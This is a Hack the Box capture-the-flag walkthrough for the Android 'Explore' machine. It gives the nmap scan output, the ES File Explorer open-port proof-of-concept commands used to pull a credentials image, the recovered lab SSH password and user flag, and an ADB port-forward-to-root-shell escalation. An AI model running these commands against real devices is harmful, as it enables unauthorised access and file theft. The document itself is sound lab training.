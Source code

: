 ```yaml
---
title: Explore - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Explore.png
---
```

### Scan
```
./nmapAutomator.sh 10.10.10.247 All

Running all scans on 10.10.10.247

Host is likely running Linux
                                                                                                                                                                                             
                                                                                                                                                                                             
---------------------Starting Port Scan-----------------------                                                                                                                               
                                                                                                                                                                                             


PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1



---------------------Starting Script Scan-----------------------
                                                                                                                                                                                             


PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio




---------------------Starting Full Scan------------------------
                                                                                                                                                                                             


PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
45567/tcp open  unknown
59777/tcp open  unknown



Making a script scan on extra ports: 45567, 59777
                                                                                                                                                                                             


PORT      STATE SERVICE VERSION
45567/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```
### Enum
nmap thinks that 59777 is a minecraft server, but having done work with Bukkit in the past, I doubt that's the case. I did research to find out more about the port, and stumbled on ES File Explorer. I'm assuming this is our poe.
Theres a git repo https://github.com/fs0c131y/ESFileExplorerOpenPortVuln.git
we can peruse with `python3 poc.py --cmd list[Files,Pics,etc.] --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.22.00 PM.png)
creds jpg. grab it `python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.23.50 PM.png)
creds ;??![Image](/assets/Screenshot 2024-10-08 at 7.24.22 PM.png) `kristi:Kr1sT!5h@Rp3xPl0r3!`
ssh in `ssh kristi@10.10.10.247 -p 2222`
dir structure ![Image](/assets/Screenshot 2024-10-08 at 7.27.01 PM.png)
Going back to where photo was in `storage/emulated/0` we find user
USER: f32017174c7c7e8f50c6da52891ae250

### Priv Esc
we can see what ports are active with `netstat -tnlp`
we see 5555, which didnt show in our scans. and through research, this is a port for android debugging.
we can reconnect with the port forwarded to our machine using SSH 
`ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222`
![Image](/assets/Screenshot 2024-10-08 at 7.47.55 PM.png)
Then, on our machine again, `apt install adb` will give us the tools to interact with the software
`adb devices`
connect to the forwarded port `adb connect localhost:5555`
Drop a shell there`adb -s localhost:5555 shell`
We can abuse privileges by using `su` and `find / name root.txt 2>/dev/null` to locate the flag.
![Image](/assets/Screenshot 2024-10-08 at 7.48.13 PM.png)

